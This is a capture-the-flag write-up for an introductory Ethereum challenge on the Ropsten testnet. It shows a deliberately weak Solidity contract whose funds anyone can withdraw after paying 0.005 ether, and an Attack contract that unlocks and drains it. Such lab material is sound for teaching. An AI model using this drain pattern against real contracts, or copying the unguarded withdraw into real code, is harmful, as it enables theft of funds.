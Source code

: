 # Warmup

## Setup

The challenge is available at http://ethereum.sharkyctf.xyz/level/0

Before starting, it is recommended to follow the suggested steps at http://ethereum.sharkyctf.xyz/help to setup Metamask, get Ether from a Ropsten faucet, and Remix IDE.

## Challenge

The contract to attack is the following :

```solidity
pragma solidity = 0.4.25;

contract Warmup {
    bool public locked;
    
    constructor() public payable {
        locked = true;
    }
    
    function unlock() public payable {
        require(msg.value == 0.005 ether);
        locked = false;
    }
    
    function withdraw() public payable {
        require(!locked);
        msg.sender.call.value(address(this).balance)();
    }
}
```

The goal is then to be able to call `withdraw()` from the contract.

## Hint

There is no special trick for this challenge, you just need to call unlock with the right value.

## Solution

This challenge is just a warmup to see how to use Remix.

To attack this contract, we will create another contract called Attack, which will be called to attack the first contract.

In the same Solidity file, add the following code :

```
contract Attack {
    Warmup public target;
    
     constructor (address _adress) public {
        target = Warmup(_adress);
    }
    
    function attack() public payable {
        
        // We send the 0.005 ether to the target
        target.unlock.value(0.005 ether)();
        
        // Once it is unlocked we withdraw the money;
        target.withdraw();
    }
}
```

The code is pretty straightforward, we initialize the Attack contract with the address of the targeted contract, then we call the method `attack()`, with a value of 1 ether for example. The `attack()` method will then send the 0.005 ether needed by the targeted contract to unlock, and afterwards we simply withdraw the funds.